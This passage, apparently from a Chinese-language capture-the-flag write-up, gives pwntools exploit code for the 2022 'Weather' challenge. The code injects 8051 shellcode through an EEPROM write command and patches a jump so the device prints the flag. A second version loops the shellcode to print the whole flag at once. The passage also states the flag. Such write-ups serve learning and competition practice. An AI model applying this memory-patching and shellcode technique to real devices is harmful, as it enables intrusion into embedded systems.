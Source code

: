 ```python
    print(s)

    # write shellcode to 0x0e00 (0x0e00 // 64 = 56)
    io.sendlineafter(b"?",b'w 101153 100 56 165 90 165 90 ' + s.encode()) 
    
    # patch 0x4F3 (0x4F3 // 64 = 19 , 0x4F3 % 64 = 51):
    # 12 01 23 7e -> 00 00 02 0e
    io.sendlineafter(b"?",b'w 101153 100 19 165 90 165 90 ' + b'0 '* 51 + b'255 255 253 241')
    io.recvline()
    flag += io.recvuntil(b'Station').decode('utf-8')[:8]
    io.close()
    print(flag)
    

# CTF{DoesAnyoneEvenReadFlagsAnymore?}
```

### 优化

在shellcode使用循环，即可一次打印出完整flag：

```python
from pwn import *

io = remote("weather.2022.ctfcompetition.com",1337)

shellcode  = []
shellcode += [0x7f, 0x00]       # MOV  R7, 0
shellcode += [0xef, 0x00]       # MOV  A, R7
shellcode += [0xf5, 0xee]       # MOV  FLAGROM_ADDR (0xEE), A
shellcode += [0xe5, 0xef]       # MOV  A, FLAGROM_DATA (0xEF)
shellcode += [0xf5, 0xf2]       # MOV  CML6, A
shellcode += [0x0f]             # INC  R7
shellcode += [0x02, 0x0e, 0x02] # JMP  0x0e02

payload = ''
for i in shellcode:
    payload += str(255 - i) + ' '

print(payload)

# write shellcode to 0x0e00 (0x0e00 // 64 = 56)
io.sendlineafter(b"?",b'w 101153 100 56 165 90 165 90 ' + payload.encode()) 

# patch 0x4F3 (0x4F3 // 64 = 19 , 0x4F3 % 64 = 51): 12 01 23 7e -> 00 00 02 0e 
# payload: 255-0 255-0 255-2 255-0xe -> 255 255 253 241
io.sendlineafter(b"?",b'w 101153 100 19 165 90 165 90 ' + b'0 '* 51 + b'255 255 253 241')

a = io.recvline()
a = io.recvline()
print(a.decode('utf-8'))
```